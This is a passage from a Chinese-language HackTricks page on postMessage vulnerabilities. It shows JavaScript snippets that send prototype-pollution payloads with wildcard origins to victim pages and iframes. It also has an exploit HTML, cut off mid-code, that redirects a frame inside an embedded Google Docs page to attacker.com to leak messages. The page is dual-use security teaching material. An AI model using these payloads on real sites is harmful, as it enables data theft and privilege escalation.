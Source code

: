 # PostMessage 漏洞

## PostMessage 漏洞

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>支持 HackTricks</summary></details>
{% endhint %}


## 发送 **PostMessage**

**PostMessage** 使用以下函数发送消息：
```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```
注意，**targetOrigin** 可以是 '\*' 或像 _https://company.com._ 的 URL。\
在 **第二种情况** 中，**消息只能发送到该域**（即使窗口对象的来源不同）。\
如果使用 **通配符**，**消息可以发送到任何域**，并将发送到窗口对象的来源。

### 攻击 iframe 和 **targetOrigin** 中的通配符

正如在 [**这份报告**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) 中所解释的，如果你发现一个可以被 **iframed** 的页面（没有 `X-Frame-Header` 保护）并且该页面通过 **postMessage** 使用 **通配符** (\*) 发送 **敏感** 消息，你可以 **修改** **iframe** 的 **来源** 并将 **敏感** 消息 **泄露** 到一个由你控制的域。\
请注意，如果页面可以被 iframed，但 **targetOrigin** 被 **设置为一个 URL 而不是通配符**，这个 **技巧将不起作用**。
```markup
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
setTimeout(exp, 6000); //Wait 6s

//Try to change the origin of the iframe each 100ms
function exp(){
setInterval(function(){
window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
}, 100);
```